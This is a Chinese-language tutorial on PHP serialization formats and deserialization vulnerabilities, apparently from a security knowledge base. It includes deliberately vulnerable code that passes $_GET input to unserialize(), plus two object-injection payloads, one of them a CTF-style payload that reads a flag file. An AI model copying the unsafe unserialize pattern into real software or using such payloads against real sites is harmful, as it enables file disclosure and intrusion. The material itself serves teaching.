

反序列化
================================

PHP序列化实现
--------------------------------
PHP序列化处理共有三种，分别为php_serialize、php_binary和WDDX（需要编译时开启支持），默认为php_serialize，可通过配置中的 ``session.serialize_handler`` 修改。

其中PHP处理器的格式为：键名 + 竖线 + 经过serialize()函数序列化处理的值。

其中php_binary处理器的格式为：键名的长度对应的 ASCII 字符 + 键名 + 经过serialize()函数序列化处理的值。

其中php_serialize处理器的格式为：经过serialize()函数序列化处理的数组。

其中php_serialize的实现在 ``php-src/ext/standard/var.c`` 中，主要函数为 ``php_var_serialize_intern`` ，序列化后的格式如下：

- boolean
    - ``b:<value>;``
    - ``b:1;`` // true
    - ``b:0;`` // false
- integer
    - ``i:<value>;``
- double
    - ``d:<value>;``
- NULL
    - ``N;``
- string
    - ``s:<length>:"<value>";``
    - ``s:1:"s";``
- array
    - ``a:<length>:{key, value};``
    - ``a:1:{s:4:"key1";s:6:"value1";}`` // ``array("key1" => "value1");``
- object
    - ``O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>};``
- reference
    - 指针类型
    - ``R:reference;``
    - ``O:1:"A":2:{s:1:"a";i:1;s:1:"b";R:2;}``
    - ``$a = new A();$a->a=1;$a->b=&$a->a;``
	
|php-serialize|

PHP反序列化漏洞
--------------------------------

相关魔术方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ __construct()当一个对象创建时被调用
+ __destruct()当一个对象销毁时被调用
+ __toString()当一个对象被当作一个字符串使用
+ __sleep() 在对象在被序列化之前运行
+ __wakeup将在序列化之后立即被调用
+ __toString在echo时被触发, ``__call`` 在一个未被定义的函数调用时被触发。

示例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code:: php

	<?php
	class A{
		var $test = "demo";
		function __destruct(){
			echo $this->test;
		}
	}
	$a = $_GET['test'];
	$a_unser = unserialize($a);
	?>

payload：``http://127.0.0.1/test.php?test=O:1:"A":1:{s:4:"test";s:5:"hello";}``

.. code:: php

	<?php
		//flag is in pctf.php
		class Shield {
			public $file;
			function __construct($filename = '') {
				$this -> file = $filename;
			}
			function readfile() {
				if (!empty($this->file) && stripos($this->file,'..')===FALSE  
				&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
					return @file_get_contents($this->file);
				}
			}
		}
	?>
	
	<?php 
		require_once('shield.php');
		$x = new Shield();
		isset($_GET['class']) && $g = $_GET['class'];
		if (!empty($g)) {
			$x = unserialize($g);
		}
		echo $x->readfile();
	?>
	
payload：``O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}``

